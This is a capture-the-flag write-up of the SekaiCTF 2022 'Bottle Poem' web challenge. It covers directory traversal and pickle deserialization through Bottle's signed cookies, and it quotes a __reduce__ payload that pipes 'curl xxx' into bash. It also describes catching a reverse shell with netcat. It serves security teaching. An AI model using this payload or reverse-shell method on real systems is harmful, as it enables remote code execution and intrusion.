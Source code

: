 ```yaml
---
title: "Sekai Ctf 2022 Bottle Poem"
date: 2023-01-06T10:27:19+07:00
image: images/blog/06.jpg
feature_image: images/blog/organization/ctf/sekai-ctf-2022-logo.png
author: duti
tags: ["web", "ctf", "duti"]
draft: true
---
```


### Problem statement

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/problem-statement.png" title="" >}}
Author hints that flag is executable

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-home.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-link.png" title="" >}}

The website is vulnerable to directory traversal
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-link-directory-traversal.png" title="" >}}

Pick /etc/self/procline to get the start application command
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/directory-traveral-cmd-procline.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}

So the application source is located at /app/app.py
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/app-source.png" title="" >}}
{{< gist hdthinh1012 fe0323be1368b472eb49f9b4cd629b07 >}}

If run the code at local change the set_cookie’s session argument to {”name”:”admin”} will get the admin page but it just a trap

The hint said flag is executable, meaning RCE is possible.

Let's have a look at Python Bottle

### Python Bottle
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-guide.png" title="" >}}

#### Bottle signed cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-signed-step.png" title="" >}}
Bottle first:

- pickle.dumps([name, value], -1) then base64 encode → encoded
- hmac encrypt the secret seperately then base64 encode → signature
- add ‘!’ at the first char and ‘?’ in between signature

Cookie format: !__secret_hmac_base64__==?__pickle_name_value_base64__==

#### Bottle verify cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-verify-step.png" title="" >}}
get_cookie:

- …
- base64 decode the pickled then call pickle.loads(pickle.dumps([’name’, “Pickle dumps containing RCE here”], -1))

We have controlled the value input through cookie

### Pickle exploit [Ref](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
Byte-stream created by pickle.dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in. If you are curious how the instructions in this pickle look like, you can use pickletools to create a disassembly: pickletools.dis(pickled)

{{< gist hdthinh1012 25791fc3bef8393f262434672ad6557f >}}

pickle still allows you to define a custom behavior for the pickling process for your class instances.


```
The __reduce__() method takes no argument and shall return either a string or 
preferably a tuple (the returned object is often referred to as the “reduce value”). 
[…] When a tuple is returned, it must be between two and six items long. 
Optional items can either be omitted, or None can be provided as their value. 
The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.
A tuple of arguments for the callable object. An empty tuple must be given if the 
callable does not accept any argument. […]
```

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

So if any value in the array pass into pickle.dumps is an instance containing `__reduce__`(…) function, that reduce will be executed when calling pickle.loads(…). And the `__reduce__`(…) implement demand returns an tuple with first value an executable, callable method in python for example (os.system, eval or any function), the second value is argument of the callable.

So by implement reduce method that `return (eval, ('__import__("os").popen("curl xxx|bash")',))` , we can execute code on the server.

### The exercise step
#### Generate cookie 
Add an class definition with `__reduce__` method (that return reverse shell python code) to create an instance, then pass the instance to the session1[’name’] that passed into set_cookie.

{{< gist hdthinh1012 93a70b6e9a3be020872c3877b7101463 >}}

Running server and go to /sign with the Guest cookie to get the new Cookie with RCE instance dumps

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/get-malicious-cookie.png" title="" >}}


<!-- {{< gist hdthinh1012 1244973789752ff62c2956e9698570eb >}} -->
In Attackbox, open netcat listener at port 55555:
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/run-nc-listener.png" title="" >}}

Request to the SekaiCTF with RCE cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/run-payload.png" title="" >}}

Netcat listener now receive reverse shell:
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/access-flag.png" title="" >}}

### Reference Links

Reverse Shell / Bind Shell: 

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

[https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/)

Python Pickle Module `__reduce__` implements allow RCE:

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Python Bottle get_cookie set_cookie using pickle.loads and pickle.dumps in its chain of encrypt/encode steps

[https://github.com/bottlepy/bottle/blob/master/bottle.py](https://github.com/bottlepy/bottle/blob/master/bottle.py) (ctrl+f set_cookie, get_cookie)





